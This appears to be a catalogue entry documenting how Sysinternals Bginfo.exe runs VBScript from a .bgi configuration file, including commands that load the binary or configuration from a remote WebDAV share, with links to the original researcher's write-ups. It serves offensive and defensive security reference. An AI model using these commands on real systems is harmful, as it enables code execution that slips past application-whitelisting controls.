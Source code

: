 ## Bginfo.exe
```

bginfo.exe bginfo.bgi /popup /nolicprompt
Execute VBscript code that is referenced within the bginfo.bgi file.

"\\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
Execute bginfo.exe from a WebDAV server.

"\\live.sysinternals.com\Tools\bginfo.exe" \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
This style of execution may not longer work due to patch.
```
* Windows binary: False   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
  * https://oddvar.moe/2017/05/22/clarification-bginfo-4-22-applocker-still-vulnerable/
  * https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
   
* File path:   
  * 
   
* Acknowledgement:   
  * Name: Oddvar Moe
    * Twitter: [@oddvarmoe](https://twitter.com/@oddvarmoe)
    * Blog: https://oddvar.moe
   
OS:  

